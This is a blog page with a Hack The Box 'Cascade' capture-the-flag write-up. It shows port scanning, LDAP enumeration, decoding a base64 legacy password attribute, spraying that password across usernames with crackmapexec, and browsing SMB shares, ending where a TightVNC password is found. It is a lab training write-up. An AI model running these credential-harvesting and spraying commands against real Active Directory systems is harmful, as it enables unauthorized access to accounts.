

repository: gmrvh/blog · page: htb/cascade/index.html · generator: mkdocs

# Cascade - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed standard Active Directory services:
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds  
636/tcp   open  tcpwrapped    
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP
3269/tcp  open  tcpwrapped    
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
```

### Domain Information
From the scan results, I identified domain information:
```
Domain: cascade.local
Domain Controller: CASC-DC1.cascade.local
```

### LDAP Enumeration
I performed LDAP enumeration to gather information about users and potential credentials:
```bash
python3 windapsearch.py --dc-ip 10.129.139.161 --full -U
```

Then, I searched specifically for password-related attributes:
```bash
python3 windapsearch.py --dc-ip 10.129.139.161 --full -U | grep -ie "pwd\|password"
```

This revealed an interesting attribute:
```
cascadeLegacyPwd: clk0bjVldmE=
```

## Gaining Initial Access

### Credential Discovery and Decoding
The cascadeLegacyPwd attribute appeared to be base64 encoded. I decoded it:
```bash
echo -n "clk0bjVldmE=" | base64 -d
```

This revealed the password: `rY4n5eva`

Initially, I didn't know which user this password belonged to, so I created a list of potential usernames from the LDAP enumeration results and attempted to brute force:
```bash
crackmapexec smb 10.129.139.161 -u users.txt -p 'rY4n5eva'
```

This revealed valid credentials:
- **Username**: r.thompson
- **Password**: rY4n5eva

### SMB Share Enumeration
Using these credentials, I connected to SMB shares:
```bash
smbclient.py cascade.local/r.thompson:'rY4n5eva'@10.129.139.161
```

I discovered several interesting files:
1. Meeting_Notes_June_2018.html
   - Contained information about a 'TempAdmin' account
   - Mentioned that TempAdmin had the same password as the Administrator account
   - This account had been deleted but could potentially be recovered

2. VNC Install.reg
   - Contained registry information for TightVNC Server
   - Included an encrypted password: `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`
